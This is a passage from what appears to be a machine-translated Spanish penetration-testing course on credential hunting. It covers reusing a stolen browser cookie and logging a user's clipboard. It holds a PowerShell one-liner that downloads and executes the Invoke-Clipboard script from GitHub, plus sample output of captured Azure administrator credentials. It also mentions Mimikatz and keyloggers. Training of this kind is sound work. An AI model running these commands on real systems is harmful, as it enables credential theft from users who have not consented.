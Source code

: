 Ahora podemos usar esta galleta con el editor de galletas como lo hicimos con Firefox.

**Nota:**Al copiar/pegar el contenido de una cookie, asegúrese de que el valor sea una línea.

---

## Portapapeles

En muchas empresas, los administradores de redes usan administradores de contraseñas para almacenar sus credenciales y copiar y pegar contraseñas en formularios de inicio de sesión. Como esto no implica`typing`Las contraseñas, el registro de teclas de tecla no son efectivas en este caso. El`clipboard`Proporciona acceso a una cantidad significativa de información, como el pegado de las credenciales y los tokens blandos 2FA, así como la posibilidad de interactuar directamente con el portapapeles de sesión RDP.

Podemos usar el[Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1)Script para extraer datos del portapapeles del usuario. Inicie el registrador emitiendo el comando a continuación.

#### Monitorear el portapapeles con PowerShell

  Expoliación

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger
```

El script comenzará a monitorear las entradas en el portapapeles y presentarlas en la sesión de PowerShell. Necesitamos ser pacientes y esperar hasta que capturemos información confidencial.

#### Capturar credenciales del portapapeles con Invoke-ClipboardLogger

  Expoliación

```powershell-session
PS C:\htb> Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```

**Nota:**Las credenciales de usuario se pueden obtener con herramientas como Mimikatz o un Keylogger. Los marcos C2, como el metasploit, contienen funciones incorporadas para el keylogging.

---

## Roles y servicios

Los servicios en un host en particular pueden servir al host u otros hosts en la red de destino. Es necesario crear un perfil de cada host dirigido, documentando la configuración de estos servicios, su propósito y cómo podemos usarlos potencialmente para lograr nuestros objetivos de evaluación. Los roles y servicios de servidor típicos incluyen:
